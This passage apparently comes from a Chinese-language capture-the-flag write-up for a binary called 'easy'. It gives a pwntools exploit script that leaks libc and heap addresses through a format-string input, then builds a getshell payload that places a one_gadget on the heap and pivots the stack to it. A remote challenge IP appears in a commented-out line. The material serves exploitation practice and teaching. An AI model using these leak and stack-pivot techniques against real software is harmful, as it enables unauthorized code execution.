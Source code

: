 <img src="/images/posts/2019-06/1560960931562.png" >

```
payload  = "aaaaaaaa"
payload += p64(one_gadget)
payload  = payload.ljust(0x410, '\x00')
p.sendline(payload + p64(pivote_addr) + p64(unwind_addr))
```

`getshell`的`payload`如上，但是注意的是`strdup`会把这里的这些内容放到`heap`上，而`heap`上就有了`one_gadget`，而`pivote_addr`为`heap`上的地址

```
from pwn import *

p = process("./easy")
#p = remote("118.25.216.151", 10001)
elf = ELF("./easy", checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

puts_got    = elf.got["puts"]
puts_plt    = elf.plt["puts"]
read_plt    = elf.plt["read"]
read_addr   = 0x400BF5

rdi_ret     = 0x400fa3
rsi_r15_ret = 0x400fa1

# context.log_level = "debug"

# -------- leak info --------
p.recvuntil("please input name:\n")
p.send("%p/%p/%p/%p/%p/%p/!%p/\n")

p.recvuntil("/")
libc_base = int(p.recvuntil("/")[:-1], 16) - 0x3C6780
p.recvuntil("/!")
heap_base = int(p.recvuntil("/")[:-1], 16)
info("libc base: " + hex(libc_base))
info("heap base: " + hex(heap_base))

# -------- exploit --------
one_gadget = libc_base + 0x45216
info("one_gadget: " + hex(one_gadget))
pivote_addr = heap_base + 0x20
info("pivote addr: " + hex(pivote_addr))
unwind_addr = 0x400EC5

pause()
```